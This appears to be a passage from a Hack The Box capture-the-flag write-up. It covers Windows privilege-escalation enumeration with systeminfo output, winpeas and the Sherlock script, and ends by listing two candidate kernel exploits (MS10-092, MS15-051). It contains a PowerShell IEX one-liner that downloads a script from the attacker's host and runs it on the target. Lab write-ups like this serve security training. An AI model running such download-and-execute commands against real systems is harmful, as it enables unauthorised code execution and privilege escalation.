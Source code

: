 ```dos
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.603 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.630 MB
Virtual Memory: In Use:    465 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

- We can run winpeas. We will use the bat version because the exe does not work. (not really helpful here)
- We can try sherlock that can be found [here](https://github.com/rasta-mouse/Sherlock) or here on kali if you have empire installed: `/usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1`
- `cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1 /home/kali/Documents/hackthebox/bastard` copying it to my working directory
- At the end of the script we need to add a line `Find-AllVulns` like this  
![Sherlock.ps1](../.res/2022-09-10-15-38-09.png)
- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -` We download our script and execute it. And it works we get a lot of info.
- We find 2 possible exploits

```dos
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```
